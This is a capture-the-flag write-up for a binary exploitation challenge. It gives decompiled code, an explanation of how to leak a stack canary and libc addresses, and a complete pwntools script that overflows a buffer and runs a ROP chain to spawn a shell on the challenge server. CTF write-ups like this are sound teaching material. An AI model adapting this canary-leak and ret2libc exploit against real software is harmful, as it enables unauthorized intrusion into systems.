

The problem can be seen here.
Doing a checksec on the program we can see that it utilizes PIE and Full RELRO, meaning that GOT overwrite attack is off-limits and we will have to get the base address of the (code+data) section to do an ROP attack.
The decompilation results are as below.
undefined8 main(void)
{
run();
return 0;
}
void run(void)
{
int iVar1;
long in_FS_OFFSET;
undefined1 local_118 [264];
long local_10;
local_10 = *(long *)(in_FS_OFFSET + 0x28);
setvbuf(stdin,(char *)0x0,2,0);
setvbuf(stdout,(char *)0x0,2,0);
setvbuf(stderr,(char *)0x0,2,0);
writeln("Mirin, It\'s the End of Period with Period.");
local_118[0] = 0x2e;
while( true ) {
while( true ) {
writeln("1: read.");
writeln("2: write.");
writeln("3: clear.");
write(1,&DAT_00102058,2);
iVar1 = readint();
if (iVar1 != 3) break;
cleara(local_118,0x100);
}
if (3 < iVar1) break;
if (iVar1 == 1) {
writeln("Read: .");
writeln(local_118);
}
else {
if (iVar1 != 2) break;
writeln("Write: .");
readln(local_118);
}
}
writeln("Invalid Command.");
writeln("Finally, Just Watch the Curtain Fall.");
if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
return;
}
/* WARNING: Subroutine does not return */
__stack_chk_fail();
}
void cleara(void *param_1,int param_2)
{
memset(param_1,0x2e,(long)param_2);
return;
}
void writeln(long param_1)
{
int local_c;
local_c = 0;
while( true ) {
write(1,(void *)(param_1 + local_c),1);
if (*(char *)(param_1 + local_c) == '.') break;
local_c = local_c + 1;
}
write(1,&DAT_00102008,1);
return;
}
void readint(void)
{
long in_FS_OFFSET;
char local_28 [24];
long local_10;
local_10 = *(long *)(in_FS_OFFSET + 0x28);
readln(local_28);
atoi(local_28);
if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
/* WARNING: Subroutine does not return */
__stack_chk_fail();
}
return;
}
void readln(long param_1)
{
int local_c;
for (local_c = 0;
(local_c < 0x100 &&
(read(0,(void *)(param_1 + local_c),1), *(char *)(param_1 + local_c) != '.'));
local_c = local_c + 1) {
}
return;
}
From the code we can conclude that a buffer overflow vulnerability exists at readint
(the size of the buffer is 24 bytes but it accepts 100 bytes of input). We can also reconstruct the stack of
main+run and readint from the disassembly as below.
Since writeln doesn't stop writing to stdout until it reaches a period, we can use this to leak the contents of the stack, more specifically,
the canary and the return address of main. As you can see below, the return address of main is 0x29d90 bytes away from the base of libc.
We can additionally extract the return address of run, and thus get the base address of PIE, but there is unfortunately
no suitable ROP gadgets present in the PIE itself, rendering it useless. Then, we can exploit the buffer overflow vulnerability present in readint
to call system("/bin/sh") via ROP. One thing of note in this problem was that I had to extract the exact version of libc the server(or docker) was using via
docker cp {container id}:/lib/x86_64-linux-gnu/libc.so.6 . I thought I was safe since the libc that my local computer used had the same name(libc.so.6) but
apparently that doesn't mean that the exact contents of the libc files will match.
The exploit code is as below.
#!/usr/bin/python3
from pwn import *
def ex():
#p = remote("localhost", 8080)
p = remote("host3.dreamhack.games", 20943)
#context.log_level = "debug"
context.arch = "amd64"
libc = ELF("./libc.so.6")
rop = ROP("./libc.so.6")
print(rop.rdi)
print(rop.ret)
rdi_gadget = 0x000000000002a3e5
ret_gadget = 0x0000000000029cd6
binsh = list(libc.search(b"/bin/sh"))[0]
p.sendafter(b"> ", b"2.")
p.sendafter(b"Write: .\n", b"A"*256)
p.sendafter(b"> ", b"1.")
p.recvuntil(b".\n")
r = p.recvn(304)
canary = r[264:272]
run_ret_addr = u64(r[280:288])
main_ret_addr = u64(r[296:304])
libc_base = main_ret_addr - 0x29d90
pie_base = run_ret_addr - 0x14d9
print(f"{canary=}")
print(f"{run_ret_addr=:x}")
print(f"{main_ret_addr=:x}")
print(f"{libc_base=:x}")
print(f"{pie_base=:x}")
p.sendafter(b"> ", b"A"*24 + canary + b"B"*8
+ p64(libc_base+ret_gadget)
+ p64(libc_base+rdi_gadget)+p64(libc_base+binsh)+p64(libc_base + libc.symbols["system"])
+ b"."
)
p.interactive()
# offset = 0x29d90 # libc
# offset = 0x14d9 # pie
if __name__ == "__main__": ex()